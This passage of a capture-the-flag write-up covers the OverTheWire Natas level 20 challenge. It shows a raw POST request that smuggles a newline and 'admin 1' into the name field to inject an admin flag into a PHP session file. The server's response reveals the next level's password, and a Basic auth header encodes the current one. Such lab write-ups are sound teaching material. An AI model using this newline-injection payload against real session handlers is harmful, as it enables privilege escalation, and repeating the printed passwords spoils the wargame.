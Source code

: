 ```python
```

This is equivalent to sending twice (eg. with Burp) the following POST request:

```
POST /index.php?debug HTTP/1.1
Host: natas20.natas.labs.overthewire.org
User-Agent: [UNDISCLOSED]
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://natas20.natas.labs.overthewire.org
Authorization: Basic bmF0YXMyMDpwNW1DdlA3R1MySzZCbXQzZ3FoTTJGYzFBNVQ4TVZ5dw==
Connection: keep-alive
Referer: http://natas20.natas.labs.overthewire.org/index.php
Cookie: PHPSESSID=969hrbu40iem1f32c61essr8ev
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Priority: u=0, i

name=test
admin 1
```

The second call gives the response:

```
HTTP/1.1 200 OK
Date: Sun, 20 Oct 2024 14:04:36 GMT
Server: Apache/2.4.58 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 1619
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas20", "pass": "p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw" };</script></head>
<body>
<h1>natas20</h1>
<div id="content">
DEBUG: MYREAD 969hrbu40iem1f32c61essr8ev<br>DEBUG: Reading from /var/lib/php/sessions/mysess_969hrbu40iem1f32c61essr8ev<br>DEBUG: Read [name test
]<br>DEBUG: Read [admin 1]<br>DEBUG: Read []<br>DEBUG: Name set to test
admin 1<br>You are an admin. The credentials for the next level are:<br><pre>Username: natas21
Password: BPhv63cKE1lkQl04cE5CuFTzXe15NfiH</pre>
<form action="index.php" method="POST">
Your name: <input name="name" value="test
admin 1"><br>
```